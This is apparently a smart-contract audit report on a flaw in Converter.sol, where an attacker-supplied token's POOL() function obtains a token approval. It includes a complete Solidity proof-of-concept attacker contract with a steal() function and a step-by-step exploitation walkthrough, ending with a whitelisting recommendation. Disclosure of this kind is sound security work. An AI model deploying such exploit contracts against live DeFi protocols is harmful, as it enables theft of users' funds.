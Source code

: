 ctf_sec

high

# Malicious actor can hijack to Converter execution flow and perform malicious approval in Converter.sol

## Summary

Malicious actor can hijack to Converter flow and perform malicious approval.

## Vulnerability Detail

Let us look into the implementation for converter.sol

```solidity
    /// @param c address of the compounding token
    /// @param u address of the underlying token
    /// @param a amount of tokens to convert
    function convert(
        address c,
        address u,
        uint256 a
    ) external {
        // first receive the tokens from msg.sender
        Safe.transferFrom(IERC20(c), msg.sender, address(this), a);

        // get Aave pool
        try IAaveAToken(c).POOL() returns (address pool) {
            // Allow the pool to spend the funds
            Safe.approve(IERC20(u), pool, a);
            // withdraw from Aave
            IAaveLendingPool(pool).withdraw(u, a, msg.sender);
        } 
```

note the external call without validation giving away the whole execution flow in the hand of hackers.

The hacker can use this contract to approve token allowance:

```solidity

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IAaveLendingPool {
    function withdraw(
        address,
        uint256,
        address
    ) external;

    // only used by integration tests
    function deposit(
        address,
        uint256,
        address,
        uint16
    ) external;
}

contract Hack is ERC20 {

    function mint(uint256 amount) {
        _mint(msg.sender, amount);
    }

    function POOL() external returns (address) {
            return address(this);
    }
    
    function withdraw(
        address,
        uint256,
        address
    ) external {
        // do nothing
    }

    function steal(address converter, address token, uint256 amount) external {
        IERC20(token).transferFrom(converter, msg.sender, amount);
    }

}
```

First the hacker deploy this contract,

then given the parameter,

```solidity
    /// @param c address of the compounding token
    /// @param u address of the underlying token
    /// @param a amount of tokens to convert
    function convert(
        address c,
        address u,
        uint256 a
    ) external {
```

hacker choose the address c as the address of the Hack contract.

the hacker needs to mint some token to bypass:

```solidity
 Safe.transferFrom(IERC20(c), msg.sender, address(this), a);
```

then code executes

```solidity
  try IAaveAToken(c).POOL() returns (address pool) {
```

this corresponds to:

```solidity
    function POOL() external returns (address) {
            return address(this);
    }
```

Ok now the address pool is still the hack address.

then this is important.

```solidity
Safe.approve(IERC20(u), pool, a);
```

The hacker can just pick a token address(u), then the contract pool, which is the hack address, have the spending power of amount a in Converter.sol.

Then the code executes:

```solidity
    IAaveLendingPool(pool).withdraw(u, a, msg.sender);
```

In the contract hack, we do nothing:

```solidity
    function withdraw(
        address,
        uint256,
        address
    ) external {
        // do nothing
    }
```

## Impact

Then any fund that is in Converter is not safe. Maybe when user redeem, the redeem call converter, the converter sliently fail in Compound redeem, the c token stucked in the contract.

I submitted another report explaining how compound redeem can fail silently:

https://github.com/sherlock-audit/2022-10-illuminate-ctf-sec/issues/5

Then after the hacker observe the stucked c token in the contract, he can call steal to complete the exploit

```solidity
    function steal(address converter, address token, uint256 amount) external {
        IERC20(token).transferFrom(converter, msg.sender, amount);
    }
```

## Code Snippet

https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Converter.sol#L16-L35

## Tool used

Manual Review

## Recommendation

Whitelist the external contract in Converter.sol!
